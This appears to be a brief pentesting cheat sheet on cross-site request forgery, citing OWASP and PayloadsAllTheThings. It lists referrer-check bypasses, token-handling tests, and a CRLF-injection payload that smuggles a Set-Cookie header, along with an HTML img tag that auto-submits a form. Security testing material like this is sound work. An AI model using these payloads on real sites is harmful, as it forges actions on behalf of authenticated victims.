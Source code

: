 # Cross-site request forgery (CSRF)
> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP
## Test first:
Referrer: https://example.com
if:
"Invalid referrer header" so:
```js
Referrer-Policy: unsafe-url
```
else:
"Invalid referrer validation" so:
```html
<meta name="referrer" content="no-referrer">
```
## Then:
1) csrf without csrf protection.
2) csrf validation depends on request method  - Change post to get.
3) csrf delete csrf parameter and  .
4) csrf - drop request and test the token in other session.
5) csrf + crlf - /?search=test%0d%0aSet-Cookie:%20csrfKey=your-key.
```html
<img src="https://domain/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()">
```

## Referrer:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection
